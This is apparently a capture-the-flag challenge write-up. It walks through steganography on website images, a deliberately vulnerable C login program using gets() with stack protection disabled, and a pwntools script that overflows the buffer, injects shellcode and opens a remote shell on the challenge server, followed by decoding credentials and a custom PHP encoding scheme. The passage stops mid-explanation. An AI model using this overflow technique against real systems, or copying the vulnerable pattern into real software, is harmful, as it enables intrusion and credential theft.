




# IRS Internal CTF

## TVOIT  (itszzjj) [400 points]

***For the sake of this challenge, imagine you are Nate/Rosa and you are talking to Brendan.***

***My friend Ethan had made a bunch of blatantly wrong assumptions when he was younger.***
***This has resulted in his C++ program files he had written back in Secondary 2 to be full of these nonsense.***

***In order to hide his embarrassment, he put everything into a thumb drive and forgot about it.***

***That was the case, until his other friend Barry came to his house and purposely stole it away. (nefarious!)***

***Here's where things get really interesting. I received this email from Ethan, stating that Barry had sent him this <a href="http://irscybersec.tk:8798">link</a>.***
***It seems to be Barry's own server, hosting some random stuff as of now. It feels like a taunt though...***

***Can you make sense of it? Help us recover the C++ source file!"***

***Submission Guideline: Find the correct C++ source file that is the most relatable in this challenge's context, and wrap the md5sum of the file itself in IRS{}. Submit the flag.***


### Preface

__________

Perhaps the first thing that you would have notice is that this challenge spans across 6 different categories. The goal of this challenge is to recreate something similar to a Hack The Box / Try Hack Me machine, where the scope is usually very wide. This was by far the longest and most fun challenge I have ever made. With that, let's now look at how to approach this challenge.


###  The Vault of Interesting Things

_____

Needless to say, the title of this challenge is an acronym of the website that Barry had sent as a taunt to Ethan. Given that the nature of his intent is to mess around with Ethan (and the fact that this is a challenge), there is a possible path that leads to the final goal: A `md5sum` of the C++ source file that is the most relevant to this challenge.


### Barry's Website

_______

Opening the link in the description leads to Barry's personal website:


(Fun fact: There are actually 16 variations of the picture displayed on the main page, and they are all cat/wolf boys/girls.)

Nothing much interesting to look here. Let's move on to `images.html` and `videos.html`.

 `images.html`



`videos.html`


(I strongly urge you to watch all the videos...)

`videos.html` seems to be a dead end, so let's go back to `images.html`.

### Peculiar Images

______

Let's take a look at the source code of `images.html`.

```html
<!DOCTYPE html >
<html>
<head>
<title>The Vault of Interesting Things</title>
<link rel="stylesheet" type="text/css" href="stylec.css">
</head>

<div align="center">
	<div class="main-page">
		<div class="selection">
			<h1><b>Interesting Images</b></h1>
			<h3>A collection of intriguing images I found.</h3>
			<h3>Feel free to look at them below!</h3>
			
			<h5><i>Kawaii character receiving an affectionate headpat while blushing heavily. Retrieved from Discord Fredboat.</i></h5>
			<h1><br></h1>
			<h1><br></h1>
			
			<h1><br></h1>
			<h1><br></h1>
			<h5><i>A poster about height awareness and mental wellbeing. Retrieved from HCI (College Section).</i></h5>
			
			<h5><i>A picture highlighting a scene of "animal abuse" in school. Retrieved from CCA Camp.</i></h5>
			<h1><br></h1>
			
			<h5><i>A "not-so-well-thought-out" challenge created by the organisers of TJCTF for TJCTF 2020. Retrieved from TJCTF 2020</i></h5>
			<h1><br></h1>
			
			<h5><i>This one is just funny. Look at this assumption! Ridiculous! Now I get to publicly shame him for doing this. >:) Retrieved from a stolen thumbdrive.</i></h5>
			<h1><br></h1>
		</div>
	</div>

</div>

</html>
```

In the context of this challenge, two images will most likely catch your attention:

`tall.jpg` (Actually rotated manually in the source code, hence very peculiar.)


`haha.png` (Challenge Context stated a C++ source file, so this is also very special.)


If we use `steghide` with the password `tall` on `tall.jpg`, we will get a RAR file, which contains two things: A binary and a C code.

```bash
$ steghide --extract -sf tall.jpg -xf data -p "tall"
wrote extracted data to "data".
$ file data
data: RAR archive data, v5
$ mv data data.rar
$ unrar e data.rar

UNRAR 5.50 freeware      Copyright (c) 1993-2017 Alexander Roshal


Extracting from data.rar

Extracting  credlogin.c                                               OK
Extracting  credlogin                                                 OK
All OK
```

`credlogin.c`

```c
#include <stdio.h>
#include <stdlib.h>
int main(){
    //FILE *f = fopen("credentials.txt", "r"); Nah, why not make it IMPOSSIBLE for you to get it???
    	printf("Welcome to my Credentials Vault!\n\n\n");
        printf("To access you need the correct username and password!\n\n");
        char username[50];
        char password[50];
        printf("Username CODE %llx: ", username);
    	gets(username);
        printf("\n");
    	printf("Password CODE %llx: ", password);
        gets(password);
        printf("\n");
        printf("Actually, no. It doesn't matter whether you have the correct credentials or not. I'm not giving it. Why should I anyway?");
}
// $ gcc -zexecstack -fno-stack-protector credlogin.c
```

Cool! A C source file that can potentially be exploited! While we can play around with the binary, where do we find the actual location/port that we use an exploit against?

The answer lies in `haha.png`. Doing a `zsteg` reveals the following:

```bash
$ zsteg haha.png
/usr/lib/ruby/2.5.0/open3.rb:199: warning: Insecure world writable dir /home/[]/.local/bin in PATH, mode 040777
imagedata           .. file: byte-swapped Berkeley vfont data
b1,rgb,lsb,xy       .. text: "Hi! I'm a cat and I'm good with net! Find me at 5386!"
b2,r,msb,xy         .. text: "u]}}]UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUQUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU"
b2,g,msb,xy         .. text: "UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUQUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU"
b2,b,msb,xy         .. text: "w_UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUQUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU"
b2,rgb,msb,xy       .. text: ["U" repeated 150 times]
b2,bgr,msb,xy       .. text: "]wU]UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU"
b2,abgr,msb,xy      .. text: ["W" repeated 114 times]
b4,r,msb,xy         .. text: ["w" repeated 185 times]
b4,g,msb,xy         .. file: MPEG ADTS, layer I, v2, 112 kbps, 24 kHz, JntStereo
b4,b,msb,xy         .. text: ["w" repeated 187 times]
b4,rgb,msb,xy       .. text: ["w" repeated 44 times]
b4,bgr,msb,xy       .. text: ["w" repeated 43 times]
b4,abgr,msb,xy      .. file: RDI Acoustic Doppler Current Profiler (ADCP)
```

We now have the port `5386`.


### The Credentials Vault

____

If we `nc` to port `5386`, we will receive this output:

```bash
$ nc irscybersec.tk 5386
Welcome to my Credentials Vault!


To access you need the correct username and password!

Username CODE 7ffee97c52f0:                                 
```

However, as the source code would have outlined, there is no correct answer to this program.

```
Welcome to my Credentials Vault!


To access you need the correct username and password!

Username CODE 7ffee97c52f0: yay

Password CODE 7ffee97c52b0: yayayayayay

Actually, no. It doesn't matter whether you have the correct credentials or not. I'm not giving it. Why should I anyway?
```

Since the `gets` function is inside the C code, we can just overflow both `username` and `password` and write an address at `r` which brings the program to execute a shellcode at the free memory space.

```python
from pwn import *
sh = asm(shellcraft.amd64.linux.sh(), arch='amd64') # use an existing shellcode from online
r = remote("irscybersec.tk", 5386)# connect
r.sendlineafter(": ", 'A'*50) # get pass first input
string = r.recvuntil(':')[-13:-1] # splice out the address
address = int(string, 16)# %llx is hex (base 16), so we convert it back to an integer.
send = 'A'*100 + padding + 'A'*8 + p64(address + 50 + 50 + 8 + 8) + sh 
#---------------|---------------|--------|--------|--->
#  password 50     username 50     p 8      r 8    sh
#      A*50           A*50         A*8    p64 addr shellcode
# after r is free memory space, so a lot of space to run whatever we want. 
r.sendline(send) 
r.interactive()
```

However, the script above will lead to this:

```
[+] Opening connection to irscybersec.tk on port 5386: Done
[*] Switching to interactive mode

Actually, no. It doesn't matter whether you have the correct credentials or not. I'm not giving it. Why should I anyway?[*] Got EOF while reading in interactive                                                                                                 
```

Shucks. What went wrong there?

As it turns out, gcc added padding to both the `username` and `password` variables as they are large.

With a bit of research online, the size of each variable has been bumped up to 64 bytes each, hence a 28 bytes increase overall (14 bytes for each variable)

If we take into consideration the padding, the script will work:

```python
from pwn import *
# context.log_level = 'debug'
sh = asm(shellcraft.amd64.linux.sh(), arch='amd64') # use an existing shellcode from online
r = remote("irscybersec.tk", 5386) # connect
r.sendlineafter(": ", 'A'*50) # get pass first input
string = r.recvuntil(':')[-13:-1] # splice out the address
padding = 'A'*28 #Get over padding as well
address = int(string, 16) # %llx is hex (base 16), so we convert it back to an integer.
send = 'A'*100 + padding + 'A'*8 + p64(address + 50 + 50 + 28 + 8 + 8) + sh 
#---------------|---------------|--------------|--------|--------|--->
#  password 50     username 50     padding 28     p 8      r 8    sh
#      A*50           A*50            A*28        A*8    p64 addr shellcode
# after r is free memory space, so a lot of space to run whatever we want. 
r.sendline(send) 
r.interactive()
```

This spawns a shell in the program, from which we can `cat` out `credentials.txt`:

```
[+] Opening connection to irscybersec.tk on port 5386: Done
[*] Switching to interactive mode

Actually, no. It doesn't matter whether you have the correct credentials or not. I'm not giving it. Why should I anyway?$ ls
core  credentials.txt  credlogin  credlogin.c  peda-session-credlogin.txt
$ cat credentials.txt
Ubj nobhg jr cynl n yvggyr tnzr bs svaqvat gur pbeerpg hfreanzr naq cnffjbeq? >:)

Username: Barry
Password(ENC):

00110110 00110100 00100000 00110011 00110010 00100000 00110110 00111000 00100000 00110100 00110010 00100000 00110110 00110100 00100000 00110100 00110111 00100000 00110101 00110110 00100000 00110101 00110111 00100000 00110101 00110010 00100000 00110101 00110110 00100000 00110100 01100001 00100000 00110011 00110000 00100000 00110110 00110001 00100000 00110100 00110100 00100000 00110100 00110110 00100000 00110101 00110100 00100000 00110110 00110001 00100000 00110101 00111000 00100000 00110100 01100101 00100000 00110100 01100001 00100000 00110101 00110010 00100000 00110100 00110101 00100000 00110011 00111001 00100000 00110100 01100110 00100000 00110101 00110110 00100000 00110100 00111000 00100000 00110100 01100001 00100000 00110110 01100011 00100000 00110101 00111001 00100000 00110101 00110111 00100000 00110111 00111000 00100000 00110100 01100100 00100000 00110110 00110101 00100000 00110101 00110101 00100000 00110100 01100101 00100000 00110110 00111000 00100000 00110101 00110101 00100000 00110110 01100001 00100000 00110100 01100100 00100000 00110011 01100100

HAHAHAHAHA
```


### Ciphered Credentials

______

While the username is given, the password is obfuscated. The cipher text `Ubj nobhg jr cynl n yvggyr tnzr bs svaqvat gur pbeerpg hfreanzr naq cnffjbeq?` can be deciphered with ROT13 to `How about we play a little game of finding the correct username and password?` In this case, we already have the username `Barry`, so we need to decipher the password. This can be done by converting the binary into ASCII:

```
64 32 68 42 64 47 56 57 52 56 4a 30 61 44 46 54 61 58 4e 4a 52 45 39 4f 56 48 4a 6c 59 57 78 4d 65 55 4e 68 55 6a 4d 3d
```

This is hexadecimal, so converting that again:

```
d2hBdGVWRVJ0aDFTaXNJRE9OVHJlYWxMeUNhUjM=
```

We get a Base64 encoded text, so converting that one more time:

```
whAteVERth1SisIDONTrealLyCaR3
```

This yields the password.

While getting the credentials is certainly exciting, one question remains: 

**Where can we use this?**


### Back to the Front Page

_____

If we go back to `index.html` and view the source, we get this:

```html
<!DOCTYPE html >
<html>
<head>
<title>The Vault of Interesting Things</title>
<link rel="stylesheet" type="text/css" href="styleh.css">
<script type="text/javascript">
    ImageArray = new Array();
    ImageArray[0] = 'profilepic1.jpg';
    ImageArray[1] = 'profilepic2.jpg';
    ImageArray[2] = 'profilepic3.jpg';
    ImageArray[3] = 'profilepic4.jpg';
    ImageArray[4] = 'profilepic5.jpg';
    ImageArray[5] = 'profilepic6.jpg';
    ImageArray[6] = 'profilepic7.jpg';
	ImageArray[7] = 'profilepic8.jpg';
	ImageArray[8] = 'profilepic9.jpg';
	ImageArray[9] = 'profilepic10.jpg';
	ImageArray[10] = 'profilepic11.jpg';
	ImageArray[11] = 'profilepic12.jpg';
	ImageArray[12] = 'profilepic13.jpg';
	ImageArray[13] = 'profilepic14.jpg';
	ImageArray[14] = 'profilepic15.jpg';
	ImageArray[15] = 'profilepic16.jpg';
	
	function getRandomImage() {
		var num = Math.floor( Math.random() * 15);
		var img = ImageArray[num];
		document.getElementById("randImage").innerHTML = ('')

	}
</script>
</head>
<body onload="getRandomImage()">
<div align="center">
	<div class="main-page">
		<div class="selection">
			<h1><b>The Vault of Interesting Things</b></h1>
			<h3>A collection of Interesting Things I found!</h3>
			<h3>Feel free to look at them by clicking the buttons below!</h3>
			<div id="randImage"></div>
			<h1><br></h1>
			<button title="images access" class="action primary tocart" onclick=" window.open('/images.html', '_blank'); return false;">View the images</button>
			<h1></h1>
			<button title="images access" class="action primary tocart" onclick=" window.open('/videos.html', '_blank'); return false;">View the videos</button>
			<h1></h1>
			<!--<button title="file server access" class="action primary tocart" onclick=" window.open('/login.php', '_blank'); return false;">Access to File Server</button>-->
		</div>
	</div>

</div>
</body>
</html>
```

There seems to be one more button that is commented out, and this leads to a page called `login.php`.



Seems like that's where the credentials are supposed to be used.

However, attempting to login with the credentials will yield this:



Well, for a 400 points challenge, it can't be **that** straightforward, right?

The comment section of the source code for this page reveals an important clue:

```html
		<!--
		As an added security check, ordinary username and password do not work. They must first be encrypted by the user before submitting. 
		E.g. If your username is "Johnson" and password is "h3y", you must submit your username as 007addfcsybCEmltXaddfcsyeybzzEwaddfcsyQWxXrgHaddfcsyDuxLxmBaddfcsywkcrJDgaddfcsyeybzzEwaddfcsyDuxLxmBprfskagprfskagprfskagprfskagprfskagprfskagprfskag
		and password as 003addfcsyQWxXrgHaddfcsyepwVWSnaddfcsyWBzvMkNprfskagprfskagprfskag
		encryptedcheck.php can be found on this site that shows the decryption algorithm.
		You should have been given the encrypted username and password for ease of use.
		
		NOTE: Please DELETE this comment block after reading!
		
		From the security team.
		-->
```

if we visit `encryptedcheck.php`, we will be greeted by this extremely ugly script.

```php
<?php
show_source(__FILE__);
function d($ii) {
    $lc = substr($ii, 0, 3);
    $n_b = (int) $lc;
    $m_l = array('Opqrxea', 'ANLJRVk', 'EScjuEG', 'CEmgkfD', 'LWALkyB', 'gLjkqyp', 'GvYVrmr', 'aIxyJZh', 'fqVwOyg', 'lXxyjfj', 'UrlqByv', 'oCwLSyb', 'SemPyyj', 'veVBFhO', 'QiJeMfv', 'dLidLIt', 'huEgzOl', 'SNOErcO', 'OoYEuGy', 'epwVWSn', 'IMyaiFa', 'nFeVCfF', 'mBxBbDt', 'qwzfBaa', 'mnPGhJe', 'cYXBLjI', 'tPnwOhx', 'kcFmDTn', 'mnGXTtR', 'cYsOMqV', 'TtectWk', 'AhrCNWr', 'NPPwTon', 'pzoxOWy', 'WhadeDe', 'TppMLJW', 'HpmvTME', 'WwYbPuL', 'PdrJXAH', 'isMKsKm', 'iYwhcbH', 'HmrMqZu', 'bCEmltX', 'VfCsIDS', 'KHjXSyd', 'tnQyknq', 'oCCEJWA', 'LvNqLUa', 'rmxlpqX', 'zlfTcUF', 'TYDGHDv', 'IthZxkp', 'WaPwKGw', 'xjAIApz', 'wXOcRiC', 'yYOZGcb', 'dgIFawK', 'qDswmPq', 'CCqbJfl', 'klEWNAL', 'FIYnPHz', 'SYGAsjS', 'gJIxAsH', 'sYLIjAd', 'gBVQDux', 'lVTZSYX', 'EJDZDRY', 'YuNmQaP', 'nxvIJmj', 'ElXMaED', 'hdUArEw', 'EmhtOrG', 'QWxXrgH', 'RHmQeWB', 'cOjcUFb', 'mBangka', 'nfONPDr', 'IiqdDLe', 'DuxLxmB', 'eybzzEw', 'EoSHwOc', 'fWaKlSw', 'GUXjVQe', 'wkcrJDg', 'AryGpcw', 'vZKwcfD', 'ewsxZCt', 'frcnbGg', 'dJvaPUk', 'WBzvMkN', 'bYZlfVi', 'jZRIfsL', 'eoyKoRC', 'bClRQHE', 'DhZGeEa');
    $o_p = array("addfcsy","prfskag");
    $lu = strlen($ii);
    $r_a1 = substr($ii, 3, $lu);
    $r_a2 = str_split($r_a1, 7);
    $ss = "";
    $ix = 32;
    $cp_as = 0;
    for($y=0;$y<count($r_a2);$y++)
    {
        if($r_a2[$y] === $o_p[1])
        {
                $cp_as++;
                continue;
        }    
        if($r_a2[$y] === $o_p[0])
        {
            foreach($m_l as $ch)
            {
                if($r_a2[$y+1] === $ch)
                {
                    $ss .= chr($ix);
                    $ix++;
                }
                else
                {
                    $ix++;
                }
            }
        }
    $ix = 32;
    }
    $ff = "";
    if($cp_as === $n_b)
    {
        for($z=0;$z<$n_b;$z++)
        {
            $ff .= $ss[$z];
        }
    }
    else
    {
        for($z=0;$z<$cp_as;$z++)
        {
            $ff .= $ss[$z];
        }
    }
return $ff;
}
?>

```

We do know one thing, and that is that whatever inputs we put in will pass into this function before being checked against the actual credentials. As what the comments have outlined, there is a need to write an esolang-like input for this "interpreter" of a PHP script to turn it into valid inputs.


### The Function

______

Let's break down how this function works.

```php
function d($ii) {
    $lc = substr($ii, 0, 3);
    $n_b = (int) $lc;
```

The function `d()` takes in an input `$ii`. The first 3 characters of `$ii` is then extracted into `$lc`, casted into an `int` and stored into `$n_b`.

```php
$m_l = array('Opqrxea', 'ANLJRVk', 'EScjuEG', 'CEmgkfD', 'LWALkyB', 'gLjkqyp', 'GvYVrmr', 'aIxyJZh', 'fqVwOyg', 'lXxyjfj', 'UrlqByv', 'oCwLSyb', 'SemPyyj', 'veVBFhO', 'QiJeMfv', 'dLidLIt', 'huEgzOl', 'SNOErcO', 'OoYEuGy', 'epwVWSn', 'IMyaiFa', 'nFeVCfF', 'mBxBbDt', 'qwzfBaa', 'mnPGhJe', 'cYXBLjI', 'tPnwOhx', 'kcFmDTn', 'mnGXTtR', 'cYsOMqV', 'TtectWk', 'AhrCNWr', 'NPPwTon', 'pzoxOWy', 'WhadeDe', 'TppMLJW', 'HpmvTME', 'WwYbPuL', 'PdrJXAH', 'isMKsKm', 'iYwhcbH', 'HmrMqZu', 'bCEmltX', 'VfCsIDS', 'KHjXSyd', 'tnQyknq', 'oCCEJWA', 'LvNqLUa', 'rmxlpqX', 'zlfTcUF', 'TYDGHDv', 'IthZxkp', 'WaPwKGw', 'xjAIApz', 'wXOcRiC', 'yYOZGcb', 'dgIFawK', 'qDswmPq', 'CCqbJfl', 'klEWNAL', 'FIYnPHz', 'SYGAsjS', 'gJIxAsH', 'sYLIjAd', 'gBVQDux', 'lVTZSYX', 'EJDZDRY', 'YuNmQaP', 'nxvIJmj', 'ElXMaED', 'hdUArEw', 'EmhtOrG', 'QWxXrgH', 'RHmQeWB', 'cOjcUFb', 'mBangka', 'nfONPDr', 'IiqdDLe', 'DuxLxmB', 'eybzzEw', 'EoSHwOc', 'fWaKlSw', 'GUXjVQe', 'wkcrJDg', 'AryGpcw', 'vZKwcfD', 'ewsxZCt', 'frcnbGg', 'dJvaPUk', 'WBzvMkN', 'bYZlfVi', 'jZRIfsL', 'eoyKoRC', 'bClRQHE', 'DhZGeEa');
$o_p = array("addfcsy","prfskag");
```

`$m_l` seems to be an array of random characters, possibly used as character substitutions in the esolang. `$o_p` seems to be two special commands.

```php
$lu = strlen($ii);
$r_a1 = substr($ii, 3, $lu);
$r_a2 = str_split($r_a1, 7);
$ss = "";
$ix = 32;
$cp_as = 0;
```

`$lu` then determines the length of input `$ii`, and then this is used to split away the front three characters from the rest of the input string. The remaining string is saved into `$r_a1` before being spliced into an array of 7 characters blocks in `$r_a2`. `$ss`, `$ix` and `$cp_as` seem to be used for later.

```php
for($y=0;$y<count($r_a2);$y++)
    {
        if($r_a2[$y] === $o_p[1])
        {
                $cp_as++;
                continue;
        }    
        if($r_a2[$y] === $o_p[0])
        {
            foreach($m_l as $ch)
            {
                if($r_a2[$y+1] === $ch)
                {
                    $ss .= chr($ix);
                    $ix++;
                }
                else
                {
                    $ix++;
                }
            }
        }
    $ix = 32;
    }
```

This is where things get a little bit complex, but in essence:

1. The outer `for` loops through each 7 characters block.
2. If the 7 characters block is identical to `$o_p[1]` `"prfskag"`, then `$cp_as++` is incremented.
3. If the 7 characters block is identical to `$o_p[0]` `"addfcsy"`, then the adjacent 7 characters block downstream is checked against every 7 characters blocks in `$m_l`. Once it matches, `chr($ix)` will be appended to `$ss`, which is possibly the "compiled" string, while `$ix` increments. 
4. If no matches were found, `$ix` still increments. This suggests that each `$ix` is paired with a certain `$ch` in `$m_l`, and that the function `chr($ix)` returns the printable character when a match has been found. Therefore, `$m_l` is a map for the list of ASCII characters from Dec 32 to Dec 126.
5. At the end of the outer `for` loop, `$ix` is reset to 32.

The map is therefore given as such:

```
32  :
Opqrxea
33 !:
ANLJRVk
34 ":
EScjuEG
35 #:
CEmgkfD
36 $:
LWALkyB
37 %:
gLjkqyp
38 &:
GvYVrmr
39 ':
aIxyJZh
40 (:
fqVwOyg
41 ):
lXxyjfj
42 *:
UrlqByv
43 +:
oCwLSyb
44 ,:
SemPyyj
45 -:
veVBFhO
46 .:
QiJeMfv
47 /:
dLidLIt
48 0:
huEgzOl
49 1:
SNOErcO
50 2:
OoYEuGy
51 3:
epwVWSn
52 4:
IMyaiFa
53 5:
nFeVCfF
54 6:
mBxBbDt
55 7:
qwzfBaa
56 8:
mnPGhJe
57 9:
cYXBLjI
58 ::
tPnwOhx
59 ;:
kcFmDTn
60 <:
mnGXTtR
61 =:
cYsOMqV
62 >:
TtectWk
63 ?:
AhrCNWr
64 @:
NPPwTon
65 A:
pzoxOWy
66 B:
WhadeDe
67 C:
TppMLJW
68 D:
HpmvTME
69 E:
WwYbPuL
70 F:
PdrJXAH
71 G:
isMKsKm
72 H:
iYwhcbH
73 I:
HmrMqZu
74 J:
bCEmltX
75 K:
VfCsIDS
76 L:
KHjXSyd
77 M:
tnQyknq
78 N:
oCCEJWA
79 O:
LvNqLUa
80 P:
rmxlpqX
81 Q:
zlfTcUF
82 R:
TYDGHDv
83 S:
IthZxkp
84 T:
WaPwKGw
85 U:
xjAIApz
86 V:
wXOcRiC
87 W:
yYOZGcb
88 X:
dgIFawK
89 Y:
qDswmPq
90 Z:
CCqbJfl
91 [:
klEWNAL
92 \:
FIYnPHz
93 ]:
SYGAsjS
94 ^:
gJIxAsH
95 _:
sYLIjAd
96 `:
gBVQDux
97 a:
lVTZSYX
98 b:
EJDZDRY
99 c:
YuNmQaP
100 d:
nxvIJmj
101 e:
ElXMaED
102 f:
hdUArEw
103 g:
EmhtOrG
104 h:
QWxXrgH
105 i:
RHmQeWB
106 j:
cOjcUFb
107 k:
mBangka
108 l:
nfONPDr
109 m:
IiqdDLe
110 n:
DuxLxmB
111 o:
eybzzEw
112 p:
EoSHwOc
113 q:
fWaKlSw
114 r:
GUXjVQe
115 s:
wkcrJDg
116 t:
AryGpcw
117 u:
vZKwcfD
118 v:
ewsxZCt
119 w:
frcnbGg
120 x:
dJvaPUk
121 y:
WBzvMkN
122 z:
bYZlfVi
123 {:
jZRIfsL
124 |:
eoyKoRC
125 }:
bClRQHE
126 ~:
DhZGeEa
```

Going back to the PHP code:

```php
$ff = "";
    if($cp_as === $n_b)
    {
        for($z=0;$z<$n_b;$z++)
        {
            $ff .= $ss[$z];
        }
    }
    else
    {
        for($z=0;$z<$cp_as;$z++)
        {
            $ff .= $ss[$z];
        }
    }
return $ff;
}
?>
```

Another variable `$ff` is created, and the function does a check if `$cp_as` is equal to `$n_b`.  If so, `$n_b` is used to add `$n_b` times of 7 character blocks into `$ff`. Otherwise, `$cp_as` is used instead to count the number of 7 character blocks to add into `$ff`. `$ff` is then returned as the final interpreted string.

This part is actually a double check to ensure that the total number of `"prfskag"` is equal to the number declared in front of `$ii`, which is `$n_b`.

Overall, the function does something like this:

```
